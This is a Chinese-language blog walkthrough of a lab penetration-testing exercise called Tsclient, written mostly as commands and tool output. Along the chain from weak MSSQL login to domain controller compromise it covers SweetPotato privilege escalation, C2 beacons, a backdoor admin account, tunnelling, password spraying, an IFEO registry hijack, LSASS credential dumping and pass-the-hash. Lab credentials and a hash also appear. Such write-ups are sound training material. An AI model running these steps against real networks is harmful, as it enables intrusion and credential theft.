+++
title = "春秋云镜Tsclient"
slug = "chunqiu-cloud-mirror-tsclient"
description = "MDUT、SeImpersonatePrivilege提权、C2基础使用、进程注入、放大镜提权、SeDebugPrivilege权限利用"
date = "2025-08-11T16:47:31"
lastmod = "2025-08-11T16:47:31"
image = ""
license = ""
categories = ["春秋云镜"]
tags = ["Pentest"]
+++

## flag1

https://github.com/shadow1ng/fscan  

```bash
./fscan -h 39.99.227.180 -p 1-65535
```

扫描出来mssql的弱密码

```
[+] mssql:39.99.227.180:1433:sa 1qaz!QAZ
```

使用MDUT链接 https://github.com/SafeGroceryStore/MDUT/releases 要使用JDK8，我写了一个bat文件

```bat
@echo off
rem 设置 Java 8 的路径
SET JAVA8_JRE=C:\Program Files\Java\jdk1.8.0_201\jre\bin
SET JAVA8_JDK=C:\Program Files\Java\jdk1.8.0_201\bin

rem 临时修改 PATH，使 Java 8 的 JDK 和 JRE 生效
SET PATH=%JAVA8_JDK%;%JAVA8_JRE%;%PATH%

rem 运行 JAR 文件
java -jar Multiple.Database.Utilization.Tools-2.1.1-jar-with-dependencies.jar

rem 暂停以查看输出
pause
```



链接之后激活组件，执行命令



**SeImpersonatePrivilege**权限可以使用甜土豆提权到SYSTEM， https://github.com/uknowsec/SweetPotato  上传上去 `C:/Users/Public/SweetPotato.exe -a "whoami"`，为了方便管理，上线C2，新建一个监听器



生成一个`beacon.exe`



全部传上去之后运行`C:/Users/Public/SweetPotato.exe -a "C:/Users/Public/beacon.exe"`成功上线



```bash
shell whoami
shell type C:\Users\Administrator\flag\flag01.txt
```

成功得到第一个 flag，新建一个用户到本地管理员，准备搭建代理

```bash
shell net user test1 baozongwi123! /add
shell net localgroup administrators test1 /add
```

使用Ligolo-ng https://github.com/nicocha30/ligolo-ng/ 

```bash
# 入口机里面运行
start /B .\agent.exe -bind 0.0.0.0:10010 > agent.log 2>&1

# kali里面运行
sudo ./proxy -selfcert -laddr "0.0.0.0:10001"
connect_agent --ip 39.99.226.192:10010

interface_list
session
autoroute

nohup ./gost -L=socks://:1080 > gost.log 2>&1 &

# 查看是否开启
ss -luntp
```

## flag2

利用fscan扫描内网机器存活

```bash
┌──(kali㉿kali)-[~/桌面/Pentest/fscan]
└─$ ./fscan -h 172.22.8.18/24       

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.15:445 open
172.22.8.46:139 open
172.22.8.46:80 open
172.22.8.18:139 open
172.22.8.18:80 open
172.22.8.31:139 open
172.22.8.15:135 open
172.22.8.18:1433 open
172.22.8.46:135 open
172.22.8.18:135 open
172.22.8.46:445 open
172.22.8.15:139 open
172.22.8.18:445 open
172.22.8.31:445 open
172.22.8.31:135 open
172.22.8.15:88 open
172.22.8.18:10010 open
[*] alive ports len is: 17
start vulscan
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetInfo 
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo 
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[*] NetInfo 
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
[*] NetInfo 
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios 172.22.8.15     [+] DC:XIAORANG\DC01           
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[+] mssql 172.22.8.18:1433:sa 1qaz!QAZ
```

整理一下

- 172.22.8.15 XIAORANG\DC01
- 172.22.8.31 XIAORANG\WIN19-CLIENT
- 172.22.8.18 已拿下
- 172.22.8.46 WIN2016.xiaorang.lab

刚才找flag的时候，我发现了一个用户John，查看用户会话

```bash
shell net users 
shell query user
```



进程注入这个用户



成功上线John用户



看看网络共享

```bash
shell net use

shell dir \\TSCLIENT\C
shell type \\TSCLIENT\C\credential.txt
```

得到了一个域用户`xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#`，喷洒攻击

```bash
netexec rdp 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```



要么过期要么登录失败，过期可以修改密码

```bash
smbpasswd -r 172.22.8.15 -U xiaorang.lab/Aldrich

Ald@rLMWuy7Z!#
Whoami@666
Whoami@666
```

RDP上去查看注册表

```powershell
Get-Acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```



所有正常登录的用户都有权限修改注册表，修改注册表映像劫持，把本来用户主页点放大镜启动的`magnify.exe`替换成`C:\windows\system32\cmd.exe`

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

锁定用户，再在右下角的放大镜打开就是SYSTEM，同样的上线C2，现在先在入口机建立一个监听器

```cmd
cd C:\Users\Aldrich\Desktop
beacon1.exe
```



```bash
shell type C:\Users\Administrator\flag\flag02.txt
```

再利用SharpHound收集域内信息

```bash
SharpHound.exe -c all
```

## flag3

查看域内管理员发现有WIN2016$



看看出站对象控制



可以直达DC01，并且再一看发现



这个玩意也是域控，查看机器用户权限



发现**SeDebugPrivilege**权限（SYSTEM用户都有），可以读取 LSASS，在CS4.2运行`logonpasswords`获得机器`NTHash`

```
netexec wmi 172.22.8.15 -u WIN2016$ -H d3048f817ff9098184db91ef77f2d76e -d xiaorang -x "whoami"

netexec wmi 172.22.8.15 -u WIN2016$ -H d3048f817ff9098184db91ef77f2d76e -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
```

